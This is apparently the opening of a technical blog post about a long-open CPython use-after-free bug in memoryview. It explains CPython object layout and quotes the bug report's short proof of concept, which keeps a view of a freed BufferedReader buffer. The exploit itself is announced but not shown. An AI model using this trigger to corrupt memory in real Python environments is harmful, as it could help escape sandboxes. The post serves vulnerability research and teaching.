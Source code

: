 ```yaml
---
layout: post
title:  "Exploiting a Use-After-Free for code execution in every version of Python 3"
date:   2022-05-11 00:00:00 +0000
categories: python
---
```


A while ago I was browsing the Python [bug tracker](https://bugs.python.org), and  I stumbled upon this bug - "[memoryview to freed memory can cause segfault](https://bugs.python.org/issue15994)". It was created in 2012, originally present in Python 2.7, but remains open to this day, 10 years later. This piqued my interest, so I decided to take a closer look.

What follows is a breakdown of the root cause and how I wrote a reliable exploit which works in every version of Python 3.

## Python Objects
To understand anything happening in CPython it's important to have an understanding of how objects are represented internally. I'll give a brief introduction here, but there are several (better) resources on the internet for learning about this.

Everything in Python is an object. CPython represents these objects with the `PyObject` struct. Every type of object extends the basic `PyObject` struct with their own specific fields. A `PyObject` looks like this:
```c
typedef struct _object {
    Py_ssize_t ob_refcnt;
    PyTypeObject *ob_type;
} PyObject;
```

A list, for example, is represented by a `PyListObject`, which looks roughly like this:
```c
typedef struct {
    PyObject ob_base;
    Py_ssize_t ob_size;
    PyObject **ob_item;
    Py_ssize_t allocated;
} PyListObject;
```

We can see that every object has a refcount (`ob_refcnt`) and a pointer to its corresponding type object (`ob_type`), in `ob_base`. The type object is a singleton and there exists one for every type in the Python language. For example, an int will point to `PyLong_Type`, and a list will be point to `PyList_Type`.

With that out of the way, let's look at the PoC.

## Proof of Concept
The author of the bug report kindly included a proof of concept which will trigger a null pointer dereference. You can see that here:
```python
import io

class File(io.RawIOBase):
    def readinto(self, buf):
        global view
        view = buf
    def readable(self):
        return True
    
f = io.BufferedReader(File())
f.read(1)                       # get view of buffer used by BufferedReader
del f                           # deallocate buffer
view = view.cast('P')
```